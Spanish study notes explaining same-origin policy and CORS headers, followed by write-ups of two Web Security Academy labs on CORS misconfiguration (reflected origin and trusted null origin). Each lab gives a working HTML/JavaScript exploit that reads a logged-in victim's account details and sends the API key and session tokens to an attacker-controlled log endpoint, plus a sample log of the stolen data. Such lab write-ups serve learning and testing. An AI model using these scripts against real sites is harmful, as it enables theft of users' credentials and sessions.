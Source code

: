 # SOP 

> La política del mismo origen impide que los scripts de un origen accedan a datos de otro origen. Un origen consta de un esquema de URI, un dominio y un número de puerto.

Al parecer fue primero que el CORS

## HttpOnly

Es una cabecera que tiene que ver con compartir los datos entre subdominios lo cual no lo permite.

# CORS

> Cross Origin (origen cruzado) es la palabra que se utiliza para denominar
el tipo de peticiones que se realizan a un dominio diferente del dominio de origen desde donde se realiza la petición. De esta forma, por una parte tenemos las peticiones de origen cruzado (cross-origin) y las peticiones del mismo origen (same-origin).

> Cross-origin resource sharing (CORS) is a browser mechanism which enables controlled access to resources located outside of a given domain.

Osea que son peticiones que se generan desde nuestra pagina a otra pagina.

> CORS (Cross-Origin Resource Sharing) es un mecanismo o política de seguridad que permite controlar las peticiones HTTP asíncronas que se pueden realizar desde un navegador a un servidor con un dominio diferente de la página cargada originalmente. 
Este tipo de peticiones se llaman peticiones de origen cruzado (cross-origin).

Por defecto 

> Utilizando este tipo de peticiones asíncronas, los recursos situados en dominios diferentes al de la página actual no están permitidos por defecto.
Es lo que se suele denominar protección de CORS. Su finalidad es dificultar la posibilidad de añadir recursos ajenos en un sitio determinado.

## Access-Control-Allow-Origin

Esta es una cabecera que se puede añadir para pemitir solicitudes cruzadas hacia otros dominion y se usa asi:

```
Access-Control-Allow-Origin: https://domain.com/
Access-Control-Allow-Origin: *

```


> El asterisco * indica que se permiten peticiones de origen cruzado a cualquier dominio, algo que puede ser interesante cuando se tienen API públicas a las que quieres permitir el acceso al público en general, 
casos como los de Google Fonts o JSDelivr, por citar un ejemplo.

EJEMPLO:

Segun lo entendido el servidor robust-website.com hace una petcion a https://normal-website.com

```
GET /data HTTP/1.1
Host: robust-website.com
Origin : https://normal-website.com

```

***Conclucion***: El CORS se configura del lado del servidor y a las dos partes se le llama origen (Cliente y Servidor) osea si voy a hacer una peticion desde mipagina.com el origuen seria ese
a mi serverapi.com (pero este tambien tiene un campo origen cuando se manda la respuesta y el origen seria serverapi.com pero al enviar la respuesta) ahora al enviar esa peticion el servidor
revisa si este origen tiene permisos para pedir datos del servidor( para apis por ejemplo la poken api queremos que todos puedan solicitar datos entonces se usa el asterisco
en la Access-Control-Allow-Origin:*) si no los tiene pues regresa el error de CORS si si esta permitido ese "origen" pues regresa los datos.

## Access-Control-Allow-Credentials

> El encabezado Access-Control-Allow-Credentials funciona junto con la propiedad XMLHttpRequest.withCredentials o con la opción credentials en el constructor Request() de la API Fetch. Para una solicitud CORS con credenciales, para que los navegadores expongan la respuesta al código JavaScript de la interfaz, tanto el servidor (usando el encabezado Access-Control-Allow-Credentials ) como el cliente (configurando el modo de credenciales para XHR, Fetch o Solicitud Ajax) debe indicar que están optando por incluir credenciales.
Osea permiten que el cliente sepa que se pueden hacer peticiones cruzadas con credenciales.

## XMLHttpRequest.withCredentials

> La propiedad XMLHttpRequest.withCredentials es un valor booleano que indica si se deben realizar o no solicitudes de Access-Control sitios utilizando credenciales como cookies, encabezados de autorización o certificados de cliente TLS. La configuración con withCredentials no tiene ningún efecto en las solicitudes del mismo sitio.

> https://runebook.dev/es/docs/dom/xmlhttprequest/withcredentials

```
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://example.com/', true);
xhr.withCredentials = true;
xhr.send(null

```

# CORS vulnerability with basic origin reflection

Para este lab primero se verifica que la pagina es vulnerable poniendo un Origen aleatoreo por ejemplo Origin:www.evil.com esto se pone en la 
pagina donde se ve los detalles de la cuenta entonces con el repeater se renvia y lo que se nota es que 
ese mismo origen que inyectamos se ve reflekado en la respuesta junto con las respectivas cabeceras: 

```
Access-Control-Allow-Origin: www.evil.com
Access-Control-Allow-Credentials: true

```

Entonces el ataque consiste en lo siguiete: Crear un scritp que se aproveche de esta vulnerabilidad de aceptar cualquier origen, que un usuario admin oprima el 
link donde esta el script este lo que hace es generar una  peticion hacia account details de ahi saca los datos que es el token de la api para posteriormente
generar una peticion a un servidor del atacante en donde se manda los datos del admin.

```

<html>
<head>
<body>
<script>
	
 var xhr = new XMLHttpRequest(); // creamos un objeto para poder hacer peticiones
 var url = "https://0ac60051041133d6c0b462860014009b.web-security-academy.net/accountDetails"; // definimos la url donde regresa el token de un usuario

 xhr.onreadystatechange = function() { // esta funcion sirve para que cuando se genere el evento de DONE que es cuando la pagina ya termina de tardar
 if (xhr.readyState == XMLHttpRequest.DONE) {
 fetch("/log?key=" + xhr.responseText)// es una peticion al servidor del atacante con los datos que le intersa robar como es asincrono hasta que se genere no
// ejecuta este codigo
 	}
 }

 
 xhr.open('GET',url,true) // le que tipo de peticion se tiene que hacer  la url y true para decirle que se pueden hacer peticiones asincronas
 xhr.withCredentials = true;// Para que permita peticiones cruzadas con cookies y cledenciales
 xhr.send(null);// envio de la peticion inicial



</script>

</body>
</html>

```

Si revisamos el log del servidor del atacante tendriamos que ver algo asi:

```
10.0.42.54       2022-08-02 20:26:24 +0000 "GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22eSYXthMZ83TzlMynck1P2Yc4c2EyQ5Q0%22,%20%20%22sessions%22:%20[%20%20%20%20%22xhtZk7Xn0jtwvFjXRrcFbY3u2iO0OH9Y%22%20%20]} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36"
19.21.168.1   2022-08-02 20:26:24 +0000 "GET / HTTP/1.1"
`` ``


# CORS vulnerability with trusted null origin

Es parecido al laboratorio pasado solo que  ahora se pone el Origin: null y se ve reflejado en la respuesta
para generar un origen null se usa un iframe.

```

<html>
<head>
<body>
<iframe sandbox="allow-scripts" srcdoc="
<script>
 var xhr = new XMLHttpRequest();
 var url = 'https://0a29001d04361e32c11ae084002a00db.web-security-academy.net'

 xhr.onreadystatechange = function() {
 if (xhr.readyState == XMLHttpRequest.DONE) {
 fetch('https://exploit-0afc0054040a1e43c1cee0c801c60000.web-security-academy.net/log?key=' + xhr.responseText)
    }
 }


 xhr.open('GET',url + '/accountDetails',true);
 xhr.withCredentials = true;
 xhr.send(null);

</script>"></iframe>
</body>
</html>
	
```	
